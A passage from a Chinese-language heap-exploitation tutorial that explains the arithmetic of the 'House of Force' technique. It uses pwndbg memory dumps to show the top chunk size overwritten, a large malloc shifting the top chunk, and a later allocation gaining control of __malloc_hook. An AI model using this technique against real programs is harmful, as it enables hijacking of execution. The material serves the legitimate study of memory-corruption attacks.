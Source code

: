> 附件：
>
> 链接: [https://pan.baidu.com/s/1AR1i1CxwcgN9kbwwYPfWzw](https://pan.baidu.com/s/1AR1i1CxwcgN9kbwwYPfWzw)  密码: u1dq
>
> --来自百度网盘超级会员V3的分享
>

这一小节介绍HOF中的两个小公式。

# 向后控制内存--公式解释
我们还是用上一小节中的向后控制内存--Demo3。

当我们篡改top_chunk_size为0xffffffffffffffff之后，内存如下所示：

```c
pwndbg> x/16gx 0x602000
0x602000:   0x0000000000000000  0x0000000000000021 chunk1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0xffffffffffffffff #old_top_chunk
                                #ptr
0x602030:   0x0000000000000000  0x0000000000000000
......
0x602070:   0x0000000000000000  0x0000000000000000
pwndbg> 
```

将这时的top_chunk称之为old_top_chunk。

然后malloc(140737345551056)[malloc(0x7ffff77cfad0)]之后：

```c
pwndbg> x/16gx 0x7ffff7dd1b00
0x7ffff7dd1b00 <__memalign_hook>:   0x00007ffff7a92ea0  0xffff800008830519 #new_top_chunk
0x7ffff7dd1b10 <__malloc_hook>: 0x0000000000000000  0x0000000000000000
                                #要控制的地址
0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x00007ffff7dd1b00
pwndbg> 
```

我们将此时的top_chunk称之为new_top_chunk。之后malloc(0x10)之后就会控制__malloc_hook地址：

```c
pwndbg> x/20gx 0x7ffff7dd1b00
0x7ffff7dd1b00 <__memalign_hook>:   0x00007ffff7a92ea0  0x0000000000000021#new_chunk(原top_chunk)
0x7ffff7dd1b10 <__malloc_hook>: 0x0000000000000000  0x0000000000000000
                                #要控制的地址
0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0xffff8000088304f9 #new_new_top_chunk
0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>: 0x0000000000000000  0x00007ffff7dd1b20
0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78
0x7ffff7dd1b90 <main_arena+112>:    0x00007ffff7dd1b78  0x00007ffff7dd1b88
pwndbg> 
```
